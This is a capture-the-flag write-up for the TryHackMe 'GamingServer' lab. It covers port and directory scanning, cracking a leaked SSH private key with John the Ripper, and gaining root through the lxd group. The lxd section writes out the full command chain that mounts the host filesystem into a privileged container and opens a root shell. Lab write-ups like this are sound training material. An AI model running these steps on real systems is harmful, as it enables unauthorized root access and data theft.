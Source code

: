 # GamingServer

[https://tryhackme.com/r/room/gamingserver](https://tryhackme.com/r/room/gamingserver)

### **USER_FLAG{ } :**

1. we get the target ip which is 10.10.73.9
2. after doing an port scan  → 

`nmap -sC -sV 10.10.73.9 >> nmap.txt`

![game_server-1](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/f5e8b5f1-4e74-43f7-808f-2caf462169e1)

1. there are only two ports open ssh and http
2. if we go to that IP we can find a website

![game_server-2](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/a221b63e-307e-4824-8e35-7ac2eed5ebe8)

1. and in the dev tools we can have a potential user name which is john
2. for finding hidden files and directories we can use 

`gobuster dir -u [http://10.10.73.9](http://10.10.73.9/) -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x .html,.php,.txt`

1. we found some directories

![game_server-3](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/68c04bd6-b984-4c22-979f-dccc79c99180)

1. `/about.html (Status: 200)
/about.php (Status: 200)
/index.html (Status: 200)
/robots.txt (Status: 200)
/uploads (Status: 301)
/myths.html (Status: 200)
/secret (Status: 301)`
2. In the `/secret` directory, we have a file named `secretKey` which contains a private key. We have SSH installed on the target machine. This could be the private SSH key of user `john`.
3. 

![game_server-4](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/1ec8cde6-b8f5-4454-b9eb-e1645fa4feef)

1. but this thing is password protected
2. We also have a `/uploads` which contains some interesting files.
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-uploads.png)
    
    Of course we need to check the `meme.jpg` first :D
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-meme.png)
    
    We also have a "The Hacker Manifesto" which looks pretty neat!
    
    ![https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png](https://digitalpress.fra1.cdn.digitaloceanspaces.com/iozzwn2/2023/01/g-manifesto.png)
    
    There is another file named `dict.lst` which looks like a wordlist. Let's download this to our system. We can use this wordlist to crack the private key!
    
3. User Shell
    
    We can use John the Ripper tool to crack the password for the private key of user `john`.
    
    We need to convert the `secretKey` into a format that John can understand.We will be using `ssh2john.py` for this.
    
    I'll save the output in `hash.txt` and then we can crack the password with the wordlist we found using John the Ripper.
    
![game_server-9](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/fc5a3aef-cb5d-4a38-9bce-92cda2d6d8c9)
    
![game_server-10](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/61531c9f-8a04-442d-82de-e31827cbba46)
    
    We got the password for the private key. Now we can login via SSH and read the user flag!
    
4. Now we ave to use  `ssh -i secretKey [john@10.10.215.18](mailto:john@10.10.215.18)`

![game_server-11](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/68a10cb0-45a0-4e5a-bacb-82dc864eb1e4)

in this form we need to give te secretKey 600 chmod permissio (600 permissions means that **only the owner of the file has full read and write access to it**.)

ssh private key needs 600  permission

### **ROOT_FLAG{ }:**

1. We have a shell as user `john` and now we need to find a way to escalate our privileges to root.

If we use the `id` command, we can see that the user `john` is a part of the `lxd` group.

![game_server-12](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/864a3668-e5b9-4afc-8e0b-44d48eba089a)

LXD is a lightweight container hypervisor which allows to run linux containers. If a member is part of the `lxd` group, it can escalate its privileges to user `root` irrespective of the fact that it has sudo permissions or not.

I found [this](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation?ref=infosecarticles.com) guide related to `lxd` privilege escalation. We need to build an `alpine` image and then we can mount the `/root` directory of  the target machine to the `/mnt` directory of a `lxd` container.

1. First we need to build the image in our own machine:
    
    ```
    git clone https://github.com/saghul/lxd-alpine-builder.git
    cd lxd-alpine-builder
    ./build-alpine
    
    ```
    
    This will create a `.tar.gz` compressed image similar to this:
    
    
    
    Next we need to copy the compressed file to the target machine and then import the image using `lxc`.
    
    ```
    john@exploitable:~$ lxc image import ./alpine-* --alias myimage
    Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
    ```
    
    ```
    john@exploitable:~$ lxc image list
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    |  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    | myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jan 7, 2023 at 6:10pm (UTC) |
    +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
    john@exploitable:~$ lxc init myimage image -c security.privileged=true
    Creating image
    ```
    
    ```
    john@exploitable:~$ lxc config device add image mydevice disk source=/ path=/mnt/root recursive=true
    Device mydevice added to image
    ```
    
    ```
    john@exploitable:~$ lxc start image
    ```
    
    Our container has been created. Now we can simply start the container and read our final flag in the `/mnt/root/root` directory!
    
    ```
    john@exploitable:~$ lxc exec image /bin/sh
    ~ # id
    uid=0(root) gid=0(root)
    ~ # cd /mnt/root/root/
    /mnt/root/root # cat root.txt
    ********************************
    
    ```
    
2. In the middle section you have to run a simple http server and the you have to wget with your machines ip address tun0 in the target machine.s



at last !

![game_server-14](https://github.com/Ruhanyat-994/ctf-capture_the_flag-/assets/110297704/ebb5227c-05ee-49df-b0d5-8ff9480e5609)

### **Alhumdulillah!**

